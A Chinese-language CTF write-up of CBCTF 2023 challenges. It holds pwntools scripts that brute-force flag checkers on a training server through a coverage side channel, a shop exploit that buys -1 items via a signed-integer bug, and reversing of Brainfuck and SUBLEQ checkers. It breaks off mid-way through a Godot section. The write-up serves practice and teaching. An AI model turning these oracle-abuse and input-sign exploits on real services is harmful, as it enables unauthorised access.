RE_RESULT = re.compile(rb"flag coverage:([0-9]+**\.**[0-9]+)%")

def normalizer(x: float) -> int:
    return min(max(int(x), 1), 255)

def fitness_func(ga: pygad.GA, sol, sol_idx):
    arr = map(normalizer, sol)
    with remote("training.0rays.club", 10078) as r:
        r.sendafter(
            b"Enter your seed (43 characters): ", b"CBCTF{" + bytes(arr) + b"}\n"
        )
        line = r.recvline(keepends=False)
        match RE_RESULT.match(line):
            case None:
                error(f"No match: {line}")
                exit(1)
            case m:
                fitness = float(m.group(1)) / 100.0
                sleep(0.01)
                return fitness

def on_generation(ga: pygad.GA):
    sol, fitness = ga.best_solution()[0:2]
    sol = bytes(map(lambda x: int(x), sol))
    print(f"[*] {ga.generations_completed}\t{fitness:.6f}\t{sol}")
    ga.save("rev_misc/ga")

if os.path.exists("rev_misc/ga.pkl"):
    ga = pygad.load("rev_misc/ga")
    print("Resuming from previous run...")
else:
    ga = pygad.GA(
        num_generations=20000,
        num_parents_mating=10,
        initial_population=None,
        fitness_func=fitness_func,
        sol_per_pop=20,
        num_genes=43 - 7,
        gene_space=list(
            (string.ascii_letters + string.punctuation + string.digits).encode()
        ),
        parent_selection_type="tournament",
        keep_parents=1,
        crossover_type="uniform",
        mutation_type="random",
        mutation_percent_genes="default",
        mutation_by_replacement=True,
        stop_criteria="reach_1",
        on_generation=on_generation,
    )

ga.summary()
ga.run()
solution, solution_fitness, solution_idx = ga.best_solution()
print(f"Parameters of the best solution : {solution}")
print(f"Fitness value of the best solution = {solution_fitness}")
```

很像 GUID 啊


那么缩小 fuzz 范围，格式 +"abcdef"+ 数字

```python
import re
import uuid

import pygad
from pwn import *

context.log_level = "error"

RE_RESULT = re.compile(rb"flag coverage:([0-9]+**\.**[0-9]+)%")

def normalizer(x: float) -> int:
    return min(max(int(x), 0), 255)

def fitness_func(ga: pygad.GA, sol, sol_idx):
    arr = map(normalizer, sol)
    uid = uuid.UUID(bytes(arr).decode("ascii"))
    with remote("training.0rays.club", 10078) as r:
        r.sendafter(
            b"Enter your seed (43 characters): ",
            b"CBCTF{" + str(uid).encode("ascii") + b"}\n",
        )
        line = r.recvline(keepends=False)
        match RE_RESULT.match(line):
            case None:
                error(f"No match: {line}")
                exit(1)
            case m:
                fitness = float(m.group(1)) / 100.0
                sleep(0.01)
                return fitness

def on_generation(ga: pygad.GA):
    sol, fitness = ga.best_solution()[0:2]
    sol = bytes(map(lambda x: int(x), sol))
    print(f"[*] {ga.generations_completed}\t{fitness:.6f}\t{sol}")
    ga.save("rev_misc/ga")

if os.path.exists("rev_misc/ga.pkl"):
    ga = pygad.load("rev_misc/ga")
    print("Resuming from previous run...")
else:
    ga = pygad.GA(
        num_generations=20000,
        num_parents_mating=10,
        initial_population=None,
        fitness_func=fitness_func,
        sol_per_pop=20,
        num_genes=43 - 7 - 4,
        gene_space=list(("abcdef" + string.digits).encode()),
        parent_selection_type="tournament",
        keep_parents=1,
        crossover_type="uniform",
        mutation_type="random",
        mutation_percent_genes="default",
        mutation_by_replacement=True,
        stop_criteria="reach_1",
        on_generation=on_generation,
    )

ga.summary()
ga.run()
solution, solution_fitness, solution_idx = ga.best_solution()
print(f"Parameters of the best solution : {solution}")
print(f"Fitness value of the best solution = {solution_fitness}")
```

loss 不收敛，换逐位爆破

```python
import uuid

from pwn import *

context.log_level = "warning"

RE_RESULT = re.compile(rb"flag coverage:([0-9]+**\.**[0-9]+)%")
CHARSET = b"0123456789abcdef"

def get_acc(uuid_str: list[int]) -> float:
    uid = uuid.UUID(bytes(uuid_str).decode("ascii"))
    with remote("training.0rays.club", 10078) as r:
        r.sendafter(
            b"Enter your seed (43 characters): ",
            b"CBCTF{" + str(uid).encode("ascii") + b"}\n",
        )
        line = r.recvline(keepends=False)
        match RE_RESULT.match(line):
            case None:
                error(f"No match: {line}")
                exit(1)
            case m:
                acc = float(m.group(1)) / 100.0
                return acc

state = b"0" * 32
max_acc = get_acc(list(state))
for i in range(32):
    for c in CHARSET:
        a = list(state)
        a[i] = c
        acc = get_acc(a)
        if acc > max_acc:
            max_acc = acc
            state = a
            print(f"Acc = {acc:.6f}, {state}")
            break

print("CBCTF{" + str(uuid.UUID(bytes(state).decode("ascii"))) + "}")
```

```
Acc = 1.000000, [51, 48, 56, 101, 98, 48, 100, 51, 48, 56, 101, 51, 52, 99, 49, 99, 97, 55, 49, 99, 102, 48, 100, 52, 99, 54, 100, 50, 49, 99, 101, 102]
```

`CBCTF{308eb0d3-08e3-4c1c-a71c-f0d4c6d21cef}`

### Crypto | Done

> Serial to launch Genshin Impact

```c
if ( stream && (fclose(stream), (streama = fopen("flag", "r")) != 0LL) )
  {
    fgets(buf_flag, 44, streama);
    fclose(streama);
    ub = 43;
    lb = 0;
    j = 0;
    printf("flag:");
    while ( lb <= ub )
    {
      mid = (ub - lb) / 2 + lb;
      putchar((unsigned __int8)buf_flag[mid]);
      fflush(_bss_start);
      j_ = j++;
      ewma_weight = ewma(ewma_weight, input_double[j_], alpha);
      if ( ewma_weight <= 0.5 )
        ub = mid - 1;
      else
        lb = mid + 1;
    }
    putchar('\n');
    return 0;
  }
```

用指数加权滑动平均（EWMA）确定下标。可以在本地生成每个 7 元 0-1 向量输入所映射到的下标向量，然后要么暴力求解要么先求最小覆盖再求解。这道题没必要取最小覆盖，因为情况太少了。所以直接暴力。

```python
import itertools as it
import typing as t
from tqdm import tqdm

from pwn import *

context.log_level = "warning"

N = 7
LEN_FLAG = 44
RE_RESULT = re.compile(rb"flag:(.{1,6})")

def ewma_update(state: float, x: float, alpha: float) -> float:
    return state * (1 - alpha) + x * alpha

def decode(a: t.Sequence[float]) -> list[int]:
    ub = 43
    lb = 0
    j = 0
    weight = 1.0
    result = []
    while lb <= ub:
        mid = (ub - lb) // 2 + lb
        result.append(mid)
        weight = ewma_update(weight, a[j], 0.5)
        if weight <= 0.5:
            ub = mid - 1
        else:
            lb = mid + 1
        j += 1
    return result

flag = ["?"] * LEN_FLAG
with tqdm(list(it.product((0, 1), repeat=N))) as t:
    for comb in t:
        payload = bytes((ord(str(x)) for x in comb))
        while True:
            t.set_description_str(payload.decode("ascii"))
            try:
                with remote("training.0rays.club", 10018) as r:
                    r.sendafter(
                        b"Your serial:",
                        payload,
                    )
                    line = r.recvline(keepends=False)
                    match RE_RESULT.match(line):
                        case None:
                            error(f"No match: {line}")
                            exit(1)
                        case m:
                            result = m.group(1).decode("ascii")
                            break
            except EOFError:
                t.set_description_str("EOFError")
                sleep(0.5)
                continue
        idx = decode(list(map(lambda x: float(x), comb)))
        if len(result) != len(idx):
            error(f"Length mismatch: {result} vs {idx}")
            exit(1)
        for i, c in zip(idx, result):
            flag[i] = c
        sleep(0.05)

print("".join(flag))
```

```
(pwnenv) PS D:\Workspace\rev\cbctf2023> & d:/Workspace/pwnenv/Scripts/python.exe d:/Workspace/rev/cbctf2023/rev_crypto/sol.py
1111111: 100%|█████████████████| 128/128 [00:26<00:00,  4.89it/s]
CBCTF{a7225c51-ac29-4401-88cc-e507919fe94a}
(pwnenv) PS D:\Workspace\rev\cbctf2023>
```

### Pwn | Done

> 本题代码全部由 chatgpt 生成，Humb1e 概不负责.

保护全开

```
mantlebao@LAPTOP-RONG-BAO:/mnt/d/Workspace/rev/cbctf2023/rev_pwn$ checksec --file ./cyber_store
[*] '/mnt/d/Workspace/rev/cbctf2023/rev_pwn/cyber_store'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
mantlebao@LAPTOP-RONG-BAO:/mnt/d/Workspace/rev/cbctf2023/rev_pwn$
```

观察代码发现是一个商店，而且可以购买 flag。


问题在于它读入的是一个 signed int 而不是 unsigned int。所以购买负数商品会给你加钱。显然可以直接购买-1 个 flag。

```
PS D:\Workspace\rev\cbctf2023\rev_pwn> ncat training.0rays.club 10034

Welcome to the Shop! Your balance is: 20
1. Buy
2. Sell
3. Exit
Choose an option (1-3): 1
You have chosen to buy.
Available items and their prices:
  1. Humble (5)
  2. Yolbby (10)
  3. Flag (1000)
Select an item (1-3): 3
Enter the quantity to buy: -1
Congratulations, you bought -1 Flag(s) for -1000, current balance: 1020.
CBCTF{c37673e4-2ebd-4c4a-8504-28c5f4c6c795}

Welcome to the Shop! Your balance is: 1020
1. Buy
2. Sell
3. Exit
Choose an option (1-3): 3
Thank you for visiting, goodbye!


Ncat: 你的主机中的软件中止了一个已建立的连接。 .
PS D:\Workspace\rev\cbctf2023\rev_pwn>
```

### Web | Done

> This is a web challenge,hhh

Vanilla Brainfuck

分组后的字节码：

```
>>,>,>,>,<<<<<++++++[>++++++++++[>->->->-<<<<-]<-]>>------->------>------->------------------------>
>>,>,>,>,<<<<<++++++[>++++++++++[>->->->-<<<<-]<-]>>---------->--------------------------------------------------------------->------->-------------------------------------------->
>>,>,>,>,<<<<<+++++[>++++++++++[>->->->-<<<<-]<-]>>->------------------------------------------------->--------------------------------------------------------->->
>>,>,>,>,<<<<<++++[>++++++++++[>->->->-<<<<-]<-]>>-------------------------------------------------------------------------->------------------------------------------------------->--------->---------------------------------------------------------------------->
>>,>,>,>,<<<<<+++++[>++++++++++[>->->->-<<<<-]<-]>>--------------------------------------------->---------------->---------------------------------------------------------------->-->
>>,>,>,>,<<<<<++++[>++++++++++[>->->->-<<<<-]<-]>>--------->---------------------------------------------------------------------->------------------------------>-------------------------------------------------------------------------------->
>>,>,>,>,<<<<<+++[>++++++++++[>->->->-<<<<-]<-]>>------------------------------------------------------------------------------------------>----------------------------------------------------------------------------->--->----------------------------------------------------------------------------------------------->
```

比较明显的规律：

```
>>,>,>,>, <<<<< {P1_1} [> {P1_2} [>->->->-<<<<-]<-]> {P2_1 ... P2_4} >
```

where P1_* = `\++`, P2_* = `>-+`.

我们对字节码进行行为解析。

程序的内存以 6 字节为一组进行划分。

每块程序最初使用 `>,>,>,>,` 读入用户输入，4 字节一组保存于当前组的偏移 2...5 位置。接下来，将偏移 0 处设置为 P1_1 所指定的值，偏移 1 处设定为指定的值。之后，程序使用 `>->->->-` 对输入的字符做减法，两层跳转暗示了两层 for 循环的存在。循环结束后对每个输入字符进行不同数量的减法，完成后进入下一组执行。

需要注意的是解释器里面的 `v=a[p]|=0` 语句中后半句显然为 nop。

观察执行结束后的验证代码，我们可以发现，验证成功的条件是所有内存单元均为 0。

```javascript
for(i=res=0;i<a.length;i++)res|=a[i];
if (res == 0){
    result.textContent = "correct";
}else{
    result.textContent = "wrong";
}
```

总结得到以下验证算法：

对于每一个 4 字节块 `a[0...3]`，当且仅当 `a[i] - p1_1 * p1_2 - p2[i] == 0` 时，验证通过。

用 visualizer 观察（[Brainfuck Visualizer](https://ashupk.github.io/Brainfuck/brainfuck-visualizer-master/index.html#Pj4sPiw+LD4sPDw8PDwrKysrKytbPisrKysrKysrKytbPi0+LT4tPi08PDw8LV08LV0+Pi0tLS0tLS0+LS0tLS0tPi0tLS0tLS0+LS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tPgo+Piw+LD4sPiw8PDw8PCsrKysrK1s+KysrKysrKysrK1s+LT4tPi0+LTw8PDwtXTwtXT4+LS0tLS0tLS0tLT4tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0+LS0tLS0tLT4tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLT4KPj4sPiw+LD4sPDw8PDwrKysrK1s+KysrKysrKysrK1s+LT4tPi0+LTw8PDwtXTwtXT4+LT4tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tPi0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLT4tPgo+Piw+LD4sPiw8PDw8PCsrKytbPisrKysrKysrKytbPi0+LT4tPi08PDw8LV08LV0+Pi0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tPi0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0+LS0tLS0tLS0tPi0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0+Cj4+LD4sPiw+LDw8PDw8KysrKytbPisrKysrKysrKytbPi0+LT4tPi08PDw8LV08LV0+Pi0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLT4tLS0tLS0tLS0tLS0tLS0tPi0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0+LS0+Cj4+LD4sPiw+LDw8PDw8KysrK1s+KysrKysrKysrK1s+LT4tPi0+LTw8PDwtXTwtXT4+LS0tLS0tLS0tPi0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0+LS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tPi0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tPgo+Piw+LD4sPiw8PDw8PCsrK1s+KysrKysrKysrK1s+LT4tPi0+LTw8PDwtXTwtXT4+LS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tPi0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tPi0tLT4tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLT4=)）可以观察得到类似结果。

写出解密代码。

```python
from pwn import *

P1 = (
    (6, 10),
    (6, 10),
    (5, 10),
    (4, 10),
    (5, 10),
    (4, 10),
    (3, 10),
)

P2 = (
    (7, 6, 7, 24),
    (10, 63, 7, 44),
    (1, 49, 57, 1),
    (74, 55, 9, 70),
    (45, 16, 64, 2),
    (9, 70, 30, 80),
    (90, 77, 3, 95)
)

result = ""
for p1, p2 in zip(P1, P2):
    coeff = p1[0] * p1[1]
    for p2_i in p2:
        result += chr((p2_i + coeff) & 0xFF)
success(result)
```

```
(pwnenv) PS D:\Workspace\rev\cbctf2023> & d:/Workspace/pwnenv/Scripts/python.exe d:/Workspace/rev/cbctf2023/rev_web/sol.py
[+] CBCTF{Ch3ck3r_1n_Br41nFxxk!}
(pwnenv) PS D:\Workspace\rev\cbctf2023>
```

### TIVM-Traceme | Done

> I have to record this......

SUBLEQ 再现，既然你这么想被 trace，那么就 trace 一下吧。

```c
#define _CRT_SECURE_NO_WARNINGS

#include <stdio.h>
#include <stdbool.h>
#include <stdint.h>
#include <string.h>
#include <time.h>

static int g_bytecode[2048] = {0};

int main(void) {
    int pc; // esi
    int op_2; // edi
    int op_1; // eax
    int loc; // ecx
    FILE *f; // [esp+0h] [ebp-Ch] BYREF

    fopen_s(&f, "traceme.bin", "rb");
    if (!f) {
        printf("Bad file: %s", "traceme.bin");
        exit(0);
    }
    fread(g_bytecode, 4u, 1891u, f);
    fclose(f);

    pc = 0;
    do {
        op_2 = g_bytecode[pc + 1];
        op_1 = g_bytecode[pc];
        loc = g_bytecode[pc + 2];
        pc += 3;
        if (op_2 >= 0) {
            if (op_1 >= 0) {
                if (op_2 == op_1) {
                    fprintf(stderr, "%04d:\tZJMP\t[%d]\t[%d]\t@%d\t", pc, op_2, op_1, loc + 3);
                } else {
                    fprintf(stderr, "%04d:\tSUBLEQ\t[%d]\t[%d]\t@%d\t", pc, op_2, op_1, loc + 3);
                }
                g_bytecode[op_2] -= g_bytecode[op_1];
                if (g_bytecode[op_2] <= 0) {
                    fprintf(stderr, "; Taken\n");
                    pc = loc;
                } else {
                    fprintf(stderr, "; Not taken\n");
                }
            } else {
                fprintf(stderr, "%04d:\tIN\t[%d]\n", pc, op_2);
                g_bytecode[op_2] = getchar();
            }
        } else {
            fprintf(stderr, "%04d:\tOUT\t[%d]\n", pc, op_1);
            putchar(g_bytecode[op_1]);
        }
    } while (pc < 1889);
    return 0;
}
```

输入 `CBCTF{fake}`：

```
0003:        SUBLEQ        [0]        [0]        @40        ; Taken
0040:        OUT        [3]
...
0130:        OUT        [33]
0133:        OUT        [34]
0136:        OUT        [35]
0139:        OUT        [36]
0142:        SUBLEQ        [0]        [0]        @146        ; Taken
0146:        SUBLEQ        [0]        [0]        @1244        ; Taken
1244:        IN        [142]
1247:        SUBLEQ        [0]        [0]        @665        ; Taken
0665:        SUBLEQ        [0]        [0]        @669        ; Taken
0669:        SUBLEQ        [0]        [0]        @674        ; Taken
0674:        SUBLEQ        [669]        [669]        @677        ; Taken
0677:        SUBLEQ        [669]        [142]        @680        ; Taken
0680:        SUBLEQ        [670]        [670]        @683        ; Taken
0683:        SUBLEQ        [670]        [665]        @686        ; Taken
0686:        SUBLEQ        [669]        [670]        @692        ; Taken
0692:        SUBLEQ        [670]        [670]        @695        ; Taken
0695:        SUBLEQ        [670]        [669]        @701        ; Taken
0701:        SUBLEQ        [0]        [0]        @1097        ; Taken
1097:        IN        [142]
1100:        SUBLEQ        [0]        [0]        @1052        ; Taken
1052:        SUBLEQ        [0]        [0]        @1056        ; Taken
1056:        SUBLEQ        [0]        [0]        @1061        ; Taken
1061:        SUBLEQ        [1056]        [1056]        @1064        ; Taken
1064:        SUBLEQ        [1056]        [142]        @1067        ; Taken
1067:        SUBLEQ        [1057]        [1057]        @1070        ; Taken
1070:        SUBLEQ        [1057]        [1052]        @1073        ; Taken
1073:        SUBLEQ        [1056]        [1057]        @1079        ; Taken
1079:        SUBLEQ        [1057]        [1057]        @1082        ; Taken
1082:        SUBLEQ        [1057]        [1056]        @1088        ; Taken
1088:        SUBLEQ        [0]        [0]        @1616        ; Taken
1616:        IN        [142]
1619:        SUBLEQ        [0]        [0]        @284        ; Taken
0284:        SUBLEQ        [0]        [0]        @288        ; Taken
0288:        SUBLEQ        [0]        [0]        @293        ; Taken
0293:        SUBLEQ        [288]        [288]        @296        ; Taken
0296:        SUBLEQ        [288]        [142]        @299        ; Taken
0299:        SUBLEQ        [289]        [289]        @302        ; Taken
0302:        SUBLEQ        [289]        [284]        @305        ; Taken
0305:        SUBLEQ        [288]        [289]        @311        ; Taken
0311:        SUBLEQ        [289]        [289]        @314        ; Taken
0314:        SUBLEQ        [289]        [288]        @320        ; Taken
0320:        SUBLEQ        [0]        [0]        @1034        ; Taken
1034:        IN        [142]
1037:        SUBLEQ        [0]        [0]        @1199        ; Taken
1199:        SUBLEQ        [0]        [0]        @1203        ; Taken
1203:        SUBLEQ        [0]        [0]        @1208        ; Taken
1208:        SUBLEQ        [1203]        [1203]        @1211        ; Taken
1211:        SUBLEQ        [1203]        [142]        @1214        ; Taken
1214:        SUBLEQ        [1204]        [1204]        @1217        ; Taken
1217:        SUBLEQ        [1204]        [1199]        @1220        ; Taken
1220:        SUBLEQ        [1203]        [1204]        @1226        ; Taken
1226:        SUBLEQ        [1204]        [1204]        @1229        ; Taken
1229:        SUBLEQ        [1204]        [1203]        @1235        ; Taken
1235:        SUBLEQ        [0]        [0]        @266        ; Taken
0266:        IN        [142]
0269:        SUBLEQ        [0]        [0]        @995        ; Taken
0995:        SUBLEQ        [0]        [0]        @999        ; Taken
0999:        SUBLEQ        [0]        [0]        @1004        ; Taken
1004:        SUBLEQ        [999]        [999]        @1007        ; Taken
1007:        SUBLEQ        [999]        [142]        @1010        ; Taken
1010:        SUBLEQ        [1000]        [1000]        @1013        ; Taken
1013:        SUBLEQ        [1000]        [995]        @1016        ; Taken
1016:        SUBLEQ        [999]        [1000]        @1022        ; Taken
1022:        SUBLEQ        [1000]        [1000]        @1025        ; Taken
1025:        SUBLEQ        [1000]        [999]        @1031        ; Taken
1031:        SUBLEQ        [0]        [0]        @1490        ; Taken
1490:        IN        [142]
1493:        SUBLEQ        [0]        [0]        @536        ; Taken
0536:        SUBLEQ        [0]        [0]        @540        ; Taken
0540:        SUBLEQ        [0]        [0]        @545        ; Taken
0545:        SUBLEQ        [540]        [540]        @548        ; Taken
0548:        SUBLEQ        [540]        [142]        @551        ; Taken
0551:        SUBLEQ        [541]        [541]        @554        ; Taken
0554:        SUBLEQ        [541]        [536]        @557        ; Taken
0557:        SUBLEQ        [540]        [541]        @563        ; Taken
0563:        SUBLEQ        [541]        [541]        @566        ; Taken
0566:        SUBLEQ        [541]        [540]        @572        ; Taken
0572:        SUBLEQ        [0]        [0]        @1496        ; Taken
1496:        IN        [142]
1499:        SUBLEQ        [0]        [0]        @1730        ; Taken
1730:        SUBLEQ        [0]        [0]        @1734        ; Taken
1734:        SUBLEQ        [0]        [0]        @1739        ; Taken
1739:        SUBLEQ        [1734]        [1734]        @1742        ; Taken
1742:        SUBLEQ        [1734]        [142]        @1745        ; Taken
1745:        SUBLEQ        [1735]        [1735]        @1748        ; Taken
1748:        SUBLEQ        [1735]        [1730]        @1751        ; Taken
1751:        SUBLEQ        [1734]        [1735]        @1757        ; Taken
1757:        SUBLEQ        [1735]        [1735]        @1760        ; Taken
1760:        SUBLEQ        [1735]        [1734]        @1766        ; Not taken
1763:        SUBLEQ        [0]        [0]        @1833        ; Taken
1833:        OUT        [1812]
1836:        OUT        [1813]
...
1881:        OUT        [1828]
1884:        OUT        [1829]
1887:        SUBLEQ        [0]        [0]        @1891        ; Taken
1891:        OUT        [1887]
```

侧信道依然可解，但是不想这么做。不妨假设所有 branch 均 taken，观察程序运行结构，得到如下的结论：

每一个字符都由一组如下的指令判断：

```
1490:        IN        [142]
1493:        SUBLEQ        [0]        [0]        @536        ; Taken
0536:        SUBLEQ        [0]        [0]        @540        ; Taken
0540:        SUBLEQ        [0]        [0]        @545        ; Taken
0545:        SUBLEQ        [540]        [540]        @548        ; Taken
0548:        SUBLEQ        [540]        [142]        @551        ; Taken
0551:        SUBLEQ        [541]        [541]        @554        ; Taken
0554:        SUBLEQ        [541]        [536]        @557        ; Taken
0557:        SUBLEQ        [540]        [541]        @563        ; Taken
0563:        SUBLEQ        [541]        [541]        @566        ; Taken
0566:        SUBLEQ        [541]        [540]        @572        ; Taken
0572:        SUBLEQ        [0]        [0]        @1496        ; Taken
```

而在这样的代码块中，只有两个被引用的内存是参数，其他都是用于实现大小判断的临时变量：以上面代码为例，`[142]` 和 `[536]`，其中前者是输入，后者是密文。每块代码都只判断相等性。

那么解密代码是简单的：

```c
#define _CRT_SECURE_NO_WARNINGS

#include <stdio.h>
#include <stdbool.h>
#include <stdint.h>
#include <string.h>
#include <time.h>
#include <ctype.h>

static int g_bytecode[2048] = {0};

static int ciphers[4096] = {0};
static int n_ciphers = 0;

int main(void) {
    int pc; // esi
    int op_2; // edi
    int op_1; // eax
    int loc; // ecx
    FILE *f; // [esp+0h] [ebp-Ch] BYREF

    fopen_s(&f, "traceme.bin", "rb");
    if (!f) {
        printf("Bad file: %s", "traceme.bin");
        exit(0);
    }
    fread(g_bytecode, 4u, 1891u, f);
    fclose(f);

    pc = 0;
    do {
        op_2 = g_bytecode[pc + 1];
        op_1 = g_bytecode[pc];
        loc = g_bytecode[pc + 2];
        pc += 3;
        if (op_2 >= 0) {
            if (op_1 >= 0) {
                if (op_1 != 142 && g_bytecode[op_1] >= 0 && isprint(g_bytecode[op_1])) {
                    ciphers[n_ciphers++] = g_bytecode[op_1];
                }
                g_bytecode[op_2] -= g_bytecode[op_1];
                if (g_bytecode[op_2] <= 0) {
                    pc = loc;
                } else {
                    pc = loc;
                }
            } else {
                g_bytecode[op_2] = getchar();
            }
        } else {
            putchar(g_bytecode[op_1]);
        }
    } while (pc < 1889);

    puts("= = = = = = = =");
    printf("%d\n", n_ciphers);
    for (int i = 0; i < n_ciphers; i++) {
        putchar(ciphers[i]);
    }
    putchar('\n');

    return 0;
}
```

```
PS D:\Workspace\rev_testbin> .\x64\Debug\rev_testbin.exe
Can you catch me?
Check flag here:aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Great job!
= = = = = = = =
36
CBCTF{Trace_me_in_the_TIVM_c86a25d1}
PS D:\Workspace\rev_testbin>
```

`CBCTF{Trace_me_in_the_TIVM_c86a25d1}`

### Ezgame | Done

> 简单好玩的游戏，听说只要分数够高就能获得 flag？

Godot 逆向。

使用 GDRT 解包，源码中存在一个假 flag。

观察到一个可疑文件：

```
extends Label

var aaa = PackedByteArray([55, 65, 245, 101, 2, 50, 172, 40, 36, 228, 207, 101, 176, 206, 10, 22, 174, 110, 115, 116, 32, 6, 45, 122, 147, 133, 5, 32, 147, 32, 244, 241, 47, 79, 82, 9, 113, 200, 169, 73, 146, 100, 212, 120, 37, 48, 49, 160, 211, 249, 17, 34, 10, 10, 179, 97, 171, 32, 150, 115, 99, 111, 114, 101, 32, 58, 32, 185, 110, 116, 32, 61, 32, 48, 10, 118, 97, 114, 32, 95, 33, 103, 108, 116, 105, 32, 58, 32, 102, 108, 111, 97, 116, 32, 61, 32, 199, 46, 48, 10, 118, 97, 114, 32, 95, 115, 99, 111, 114, 101, 95, 115, 124, 111, 253, 32, 58, 32, 102, 108, 111, 97, 116, 32, 61, 32, 48, 46, 48, 10, 118, 97, 114, 32, 95, 115, 99, 111, 114, 101, 95, 115, 109, 111, 111, 116, 104, 32, 58, 32, 105, 110, 116, 32, 61, 32, 48, 10, 10, 118, 97, 114, 32, 95, 115, 99, 111, 114, 101, 95, 72, 101, 220, 32, 58, 32, 105, 110, 116, 10, 118, 97, 114, 32, 95, 115, 99, 111, 114, 101, 95, 99, 104, 101, 99, 107, 32, 58, 32, 105, 110, 116, 10, 10, 102, 117, 110, 99, 32, 95, 114, 101, 97, 100, 121, 40, 41, 58, 10, 106, 56, 114, 105, 110, 116, 40, 38, 104, 101, 108, 108, 111, 39, 41, 10, 9, 162, 101, 116, 95, 110, 111, 100, 101, 40, 34, 143, 114, 111, 111, 116, 47, 253, 111, 100, 101, 50, 122, 34, 41, 46, 97, 100, 100, 95, 115, 99, 111, 114, 101, 46, 99, 111, 110, 110, 101, 99, 116, 40, 115, 101, 108, 102, 46, 97, 100, 100, 95, 115, 99, 111, 114, 101, 41, 10, 9, 103, 101, 116, 95, 110, 111, 100, 101, 40, 34, 47, 114, 111, 111, 116, 47, 78, 111, 100, 101, 50, 68, 34, 41, 46, 103, 97, 109, 101, 95, 111, 118, 101, 114, 46, 99, 111, 110, 110, 101, 99, 116, 40, 115, 101, 108, 102, 46, 95, 111, 110, 95, 103, 97, 109, 101, 95, 111, 118, 101, 114, 41, 10, 9, 103, 101, 116, 95, 110, 111, 100, 101, 40, 34, 47, 114, 111, 111, 116, 47, 78, 111, 100, 101, 50, 68, 34, 41, 46, 103, 97, 109, 101, 95, 114, 101, 115, 116, 97, 114, 116, 46, 99, 111, 110, 110, 101, 99, 116, 40, 115, 101, 108, 102, 46, 95, 111, 110, 95, 114, 101, 115, 116, 97, 114, 116, 41, 10, 9, 10, 9, 114, 97, 110, 100, 111, 109, 105, 13, 101, 40, 41, 10, 9, 95, 115, 99, 111, 114, 101, 95, 107, 101, 121, 32, 61, 32, 114, 97, 110, 100, 105, 40, 41, 10, 9, 95, 115, 99, 111, 114, 101, 95, 99, 104, 101, 99, 107, 32, 61, 32, 95, 115, 99, 111, 114, 101, 32, 7, 32, 95, 115, 99, 111, 114, 101, 95, 107, 101, 121, 10, 10, 102, 117, 110, 99, 32, 95, 112, 114, 111, 99, 101, 115, 115, 40, 100, 101, 108, 116, 97, 41, 58, 10, 9, 95, 115, 99, 111, 114, 101, 95, 115, 104, 111, 119, 32, 61, 32, 108, 101, 114, 112, 102, 40, 95, 115, 99, 111, 114, 101, 95, 115, 104, 111, 119, 208, 32, 95, 103, 101, 116, 95, 115, 99, 111, 114, 101, 40, 41, 44, 32, 48, 46, 48, 123, 41, 10, 9, 115, 101, 108, 102, 46, 116, 101, 120, 116, 32, 61, 32, 70, 79, 82, 77, 65, 84, 32, 37, 32, 234, 102, 108, 111, 111, 114, 102, 40, 95, 115, 99, 111, 114, 101, 95, 115, 104, 111, 119, 32, 90, 32, 48, 46, 49, 41, 44, 32, 95, 103, 101, 116, 95, 109, 117, 108, 116, 105, 40, 41, 200, 10, 10, 102, 117, 110, 99, 32, 95, 112, 104, 121, 115, 105, 99, 115, 95, 112, 114, 111, 99, 101, 115, 115, 40, 100, 101, 108, 116, 97, 41, 58, 10, 9, 95, 116, 114, 97, 112, 40, 41, 10, 9, 95, 109, 117, 108, 116, 105, 32, 61, 32, 108, 101, 114, 112, 102, 40, 95, 109, 117, 108, 116, 105, 44, 32, 53, 46, 48, 44, 32, 100, 101, 108, 116, 97, 41, 10, 9, 115, 101, 108, 102, 46, 115, 99, 97, 108, 101, 32, 61, 32, 144, 101, 99, 116, 111, 114, 50, 46, 79, 78, 69, 32, 178, 32, 40, 49, 46, 15, 32, 212, 32, 48, 46, 52, 32, 